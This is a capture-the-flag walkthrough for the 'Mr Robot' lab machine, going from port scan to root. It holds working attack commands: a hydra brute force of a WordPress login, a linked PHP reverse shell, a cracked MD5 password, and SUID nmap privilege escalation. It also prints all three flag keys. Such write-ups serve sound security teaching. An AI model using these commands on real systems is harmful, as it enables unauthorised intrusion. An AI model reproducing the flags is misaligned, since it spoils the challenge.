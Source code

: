 Step 1:NMAP

root@kali ~/D/C/Mr_Robot# nmap -sS -sV -T4 -p- 10.0.0.48

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

We have 3 open ports, port 80 for http, port 443 for https and port 22 for ssh but that is closed, maybe we will log to a user and enable it.
------------------------------------------------------------------------------------------------
Step 2: HTTP/FSOCIETY

Going to http://10.0.0.48 we are greeted with a very impresive webpage, it has videos and an "intercatable shell", despite the impressive show there is nothing we can get out of the site, I even went to a site that was stated on the video www.whoismrrobot.com with hopes to find something.

Using dirsearch to find files and directories that might give us some information.

root@kali ~/D/C/Mr_Robot# dirsearch -u http://10.0.0.48

We have the robots.txt file:
User-agent: *
fsocity.dic
key-1-of-3.txt

Downloading the dictionary file, we can get the first key, http://10.0.0.48/key-1-of-3.txt:

073403c8a58a1f80d943455fb30724b9

The dirsearch scan also showed there is a login page. We have a dictionary so maybe we can brute force the site and get a username.
Before starting the brute force, we see that the dictionary we downloaded has 858160 words, maybe there are dupes.

root@kali ~/D/C/Mr_Robot# sort fsocity.dic | uniq > fsocitySorted.dic

And we get a sorted dictionary that we can use.

root@kali ~/D/C/Mr_Robot# hydra -L fsocitySorted.dic -p fsocitySorted.dic -s 80 10.0.0.48 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username' -I -v

We have a username --> elliot. We can now brute force a second time with the user name. We could have done one brute force attack to find a username and password but that would have taken much longer.

We get a username and password, elliot:ER28-0652
Loggin in via the login page, we get access to the admin page, we can then upload a reverse shell script and get a reverse shell.

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
------------------------------------------------------------------------------------------------
Step 3: REVERSE SHELL

We are logged in as the daemon user, reading the /etc/passwd file, there is a user named robot, going to /home/robot, there is the second key and hashed password. We don't have permission to read the key so let's try to "dehash" the hash.

password.raw-md5:
robot:c3fcd3d76192e4007dfb496cca67e13b

md5 dehash:
abcdefghijklmnopqrstuvwxyz

Before we can switch to the robot user, we get an error:

$ su robot
su: must be run from a terminal

We can open a new bash terminal using python.

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ 

Switching to the robot user we can read the second key:

822c73956184f694993bede3eb39f959
------------------------------------------------------------------------------------------------
Step 4: PRIVILAGE ESCILATION

Using "sudo -l" to see what commands the user can run as root, the user doesn't have permissions to use sudo.

robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.

We can try to find files with SUID permissions.

robot@linux:/$ find / -perm /4000 2> /dev/null

We found a couple of files, but we found that nmap has SUID permissions. Searching online for "nmap shell", turns out there is an interactive mode for nmap where we can open a shell as the root user.

robot@linux:/$ nmap --interactive

Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root

Going to the /root folder we find the third and final key:

04787ddef27c3dee1ee161b21670b4e4

Now that we found 3 keys, we have completed the CTF. 
